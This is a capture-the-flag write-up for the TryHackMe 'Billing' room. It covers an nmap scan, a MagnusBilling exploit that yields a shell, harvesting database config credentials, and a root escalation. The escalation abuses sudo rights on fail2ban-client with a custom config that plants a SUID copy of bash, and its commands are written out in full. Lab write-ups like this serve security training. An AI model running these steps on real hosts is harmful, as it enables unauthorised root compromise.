






description:
https://tryhackme.com/room/billing
Some mistakes can be costly.
Gain a shell, find the way and escalate your privileges!
**Note:** Bruteforcing is out of scope for this room.

1. nmap scan
```bash
└─$ sudo nmap -p- -sS -sV -T4 10.80.130.242

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
1. main website view: http://10.80.130.242/mbilling/

website is blocking login for 5 minutes for ip in case username / password were incorrect
we need something more specific:
http://10.80.130.242/mbilling/README.md here we have information that it is using MagnusBilling 
I searched for exploit and now I have meterpreter session:

I am logged in as asterisk user.
in /var/www/html we have interesting files and directories:
cron.php owned by root but we have access to read  - it is empty
protected - we can read.
in /var/www/html/mbilling/protected/config we have config files.
In code of these files there is some mysql.conf mentioned:
/etc/asterisk/res_config_mysql.conf

dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = **REDACTED**
I had to login with -D
```bash
 mysql -D mbilling -u mbillingUser -p
```
after runnin show tables I noted three possibly interesting:
pkg_configuration
pkg_group_user
pkg_voicemail_users
in pkg_configuration I found some smtp credentials:

ok... user magnus has readable flag in user.txt
 
 we can run fail2ban with root permissions:

we can't write to /etc/fail2ban configurations but we can run fail2ban with our own config
```bash
# copy all fail2ban configs to tmp:
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```
follow instructions:
https://juggernaut-sec.com/fail2ban-lpe/
I added to the end of file:
```bash
echo 'actionban = cp /bin/bash /tmp && chmod 4755 /tmp/bash' >> iptables-multiport.conf
```


```bash
# create script. it will copy /bin/bash with suid bit set
asterisk@ip-10-81-187-43:/tmp/fail2ban$ cat > /tmp/script1 <<EOF
cat > /tmp/script1 <<EOF
> #!/bin/sh
#!/bin/sh
> cp /bin/bash /tmp/bash
cp /bin/bash /tmp/bash
> chmod 755 /tmp/bash
chmod 755 /tmp/bash
> chmod u+s /tmp/bash
chmod u+s /tmp/bash
> EOF 
EOF
# must be executable
asterisk@ip-10-81-187-43:/tmp/fail2ban$ chmod +x /tmp/script1
chmod +x /tmp/script1
# add config file to run this script
asterisk@ip-10-81-187-43:/tmp/fail2ban$ cat > /tmp/fail2ban/action.d/start-cmd.conf <<EOF
<$ cat > /tmp/fail2ban/action.d/start-cmd.conf <<EOF
> [Definition]
[Definition]
> actionstart = /tmp/script1
actionstart = /tmp/script1
> EOF
EOF
# append to end of jail.local action
asterisk@ip-10-81-187-43:/tmp/fail2ban$ cat >> /tmp/fail2ban/jail.local <<EOF
cat >> /tmp/fail2ban/jail.local <<EOF
> [custom-jail]
[custom-jail]
> enabled = true
enabled = true
> action = start-cmd           
action = start-cmd
> EOF
EOF
# create file for action, only [Definition] is needed
asterisk@ip-10-81-187-43:/tmp/fail2ban$ cat > /tmp/fail2ban/filter.d/custom-jail.conf <<EOF       
<cat > /tmp/fail2ban/filter.d/custom-jail.conf <<EOF
> [Definition]
[Definition]
> EOF
EOF

# restart service
asterisk@ip-10-81-187-43:/tmp/fail2ban$ sudo fail2ban-client -c /tmp/fail2ban -v restart
# go to folder where your bash is saved
cd /tmp 
ls -la
# run it as owner:
./bash -p

```
now we are root with final flag:


